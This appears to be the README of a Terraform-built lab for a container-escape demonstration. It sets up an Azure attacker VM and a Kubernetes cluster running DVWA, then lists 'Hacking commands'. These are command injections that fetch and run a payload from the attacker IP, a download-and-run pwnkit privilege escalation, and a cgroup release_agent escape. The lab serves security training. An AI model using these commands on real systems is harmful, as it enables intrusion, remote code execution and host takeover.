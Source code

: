 1. Clone the project

```bash title="Clone the project"
git clone git@github.com:Lunalectric/container-escape.git
```

2. cd into the terraform folder

```
cd container-escape/azure
```

3. Initialize the project (download modules)

```
terraform init
```

4. Check that everything is ready

```
terraform plan
```

5. Apply the configuration

```
terraform apply -auto-approve
```

Once the provisioning completes you will see something like this:

```bash
Apply complete! Resources: 14 added, 0 changed, 0 destroyed.

Outputs:

public_ip_address = "13.92.179.31"
resource_group_name = "rg-Lunalectric-container-escape"
summary = <<EOT

attacker vm public ip: 13.92.179.31

terraform output -raw tls_private_key > id_rsa
ssh -o StrictHostKeyChecking=no -i id_rsa azureuser@13.92.179.31

export KUBECONFIG="\$\{PWD}/aks-kubeconfig"
kubectl apply -f dvwa-deployment.yml
kubectl port-forward $(kubectl get pods -o name) 8080:80


Hacking commands:

dvwa-browser---------------

;curl -vk http://13.92.179.31:8001/met-container -o /tmp/met
;chmod 777 /tmp/met
;/tmp/met

privilege-escalation-------

cd /tmp
curl -vkO https://pwnkit.s3.amazonaws.com/priv-es
chmod a+x ./priv-es
./priv-es

container-escape-----------

mkdir -p /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir -p /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /proc/mounts)/cmd" > /tmp/cgrp/release_agent
```